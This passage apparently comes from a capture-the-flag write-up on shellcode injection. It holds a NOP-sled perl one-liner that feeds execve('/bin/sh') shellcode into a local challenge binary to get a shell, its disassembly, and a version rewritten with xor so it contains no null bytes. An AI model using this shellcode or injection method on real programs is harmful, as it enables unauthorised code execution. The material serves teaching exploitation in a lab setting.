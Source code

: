### Applying Shellcode to Challenge

Returning to the challenge, we still need to handle the offset:

```c
  int offset = (rand() % 256) + 1;
  
  ((void (*)())(buf+offset))();
```

So upon successful injection, we don't want to execute from the start of the
buffer, but an offset somewhere between 0-257 bytes in. Since our shellcode is
much smaller than the total buffer size (512 bytes) we can just buffer the code
without having to worry about a buffer overflow. The easiest way to buffer
would be to just add lots of `noop` instructions, which have opcode `0x90`, so
let's try that:

```
$ cat <(perl -E 'say "\x90" x 257 . "\x6a\x00\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb8\x0b\x00\x00\x00\x89\xe3\xb9\x00\x00\x00\x00\xba\x00\x00\x00\x00\xcd\x80"') - | ./vuln
```

Which gives us a shell!

## Extra: Null Bytes in Shellcode

Since C interprets null bytes (`0x00`) as marking the end of the string, were
we doing a more complicated shellcode injection that involved overflowing a
buffer it may be necessary to ensure none of these bytes were present in our
payload. From before, our payload is:

```
08049000 <_start>:
 8049000:	6a 00                	push   0x0
 8049002:	68 2f 2f 73 68       	push   0x68732f2f
 8049007:	68 2f 62 69 6e       	push   0x6e69622f
 804900c:	b8 0b 00 00 00       	mov    eax,0xb
 8049011:	89 e3                	mov    ebx,esp
 8049013:	b9 00 00 00 00       	mov    ecx,0x0
 8049018:	ba 00 00 00 00       	mov    edx,0x0
 804901d:	cd 80                	int    0x80
```

Which contains plenty of null bytes. The offending instructions are those
explicitly involving `0x00` (i.e. zeroing registers) and our `mov` commands.

Thankfully, we can simply zero a register by `xor`-ing it with itself, updating
our code (removing comments to make things simpler to read):

```global _start
global _start
_start:

    ; push our string onto the stack
    push 0x0        ; null byte, terminate our string
    push 0x68732f2f ; "//sh"
    push 0x6e69622f ; "/bin"

    ; build syscall:
    ; you can find tables for syscall codes online
    mov eax, 0xb    ; execve(
    mov ebx, esp    ; "/bin/sh",
    xor ecx, ecx    ; NULL,     <----- now with xor
    xor edx, edx    ; NULL)     <----- now with xor
    int 0x80        ; make the syscall
```
